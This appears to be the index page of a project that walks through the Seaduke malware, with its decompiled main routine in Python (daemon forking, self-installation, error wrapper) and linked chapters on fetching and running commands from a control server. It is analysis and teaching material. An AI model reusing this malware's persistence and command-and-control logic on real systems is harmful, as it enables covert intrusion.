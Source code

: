 # what is this?
an anatomy of [seaduke](https://github.com/pan-unit42/iocs/blob/master/seaduke/decompiled.py)

```python
if __name__=="__main__":
    time_sleep(botKlass.run_delay)
    if not botKlass.was_first_run:
        botKlass.was_first_run = True
    if v_sys_platform != 'win32':
        forkmeiamfamous()
    me = BotInstallKlass(botKlass.key_id)

    try:
        seh_wrapper()
    except SystemExit:
        me = None
        time_sleep(1)
        sys_exit(0)
    except Exception as e:
        me = None
        time_sleep(1)
        sys_exit(0)
```
* initializing [bot settings](https://github.com/mynameisvinn/Seaduke/blob/master/chapters/bot_settings.md) so bot knows how to bot
* forking itself so it can run as a [daemon/background process](https://github.com/mynameisvinn/Seaduke/blob/master/fork.md)
* [installing](https://github.com/mynameisvinn/Seaduke/blob/master/chapters/install.md) botKlass, which really means carving space for itself on disk
* [seh_wrapper](https://github.com/mynameisvinn/Seaduke/blob/master/sehwrapper.md)
* doing an [event loop]() and polling for instructions
* how does seaduke [fetch instructions](https://github.com/mynameisvinn/Seaduke/blob/master/chapters/fetch.md) from the mothership?
* [decode](https://github.com/mynameisvinn/Seaduke/blob/master/chapters/decode.md) tasks
* [executing tasks](https://github.com/mynameisvinn/Seaduke/blob/master/chapters/execution.md) with `threadStuffKlass`
* executing [arbitrary commands](https://github.com/mynameisvinn/Seaduke/blob/master/chapters/commands.md)
** [saving](https://github.com/mynameisvinn/Seaduke/blob/master/chapters/save.md) bot bot